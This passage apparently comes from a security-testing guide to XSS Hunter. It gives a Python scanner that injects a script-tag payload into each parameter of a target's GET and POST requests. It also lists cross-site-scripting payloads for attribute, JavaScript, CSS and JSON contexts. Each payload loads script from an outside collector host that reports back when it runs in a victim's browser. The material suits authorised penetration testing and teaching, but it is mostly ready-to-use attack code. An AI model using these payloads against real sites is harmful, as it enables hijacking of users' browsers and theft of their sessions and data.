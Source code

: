### Custom Scanner Integration
```python
#!/usr/bin/env python3
import requests
import time
from urllib.parse import urljoin

class XSSHunterScanner:
    def __init__(self, xss_hunter_domain):
        self.domain = xss_hunter_domain
        self.payload_base = f'"><script src="https://{xss_hunter_domain}"></script>'
        
    def test_reflected_xss(self, url, params):
        """Test for reflected XSS with XSS Hunter payloads"""
        for param in params:
            test_params = params.copy()
            test_params[param] = self.payload_base
            
            response = requests.get(url, params=test_params)
            # XSS Hunter will collect any successful executions
            
    def test_stored_xss(self, url, data):
        """Test for stored XSS"""
        for field in data:
            test_data = data.copy()
            test_data[field] = self.payload_base
            
            requests.post(url, data=test_data)
            time.sleep(2)  # Allow time for execution

# Usage
scanner = XSSHunterScanner("yoursubdomain.xss.ht")
scanner.test_reflected_xss("http://target.com/search", {"q": ""})
```

## Payload Variations

### Context-Specific Payloads
```javascript
// Attribute context
" onmouseover="var s=document.createElement('script');s.src='https://yoursubdomain.xss.ht';document.head.appendChild(s)" "

// JavaScript context
';var s=document.createElement('script');s.src='https://yoursubdomain.xss.ht';document.head.appendChild(s);//

// CSS context
</style><script src="https://yoursubdomain.xss.ht"></script><style>

// JSON context
","xss":"</script><script src='https://yoursubdomain.xss.ht'></script>
```
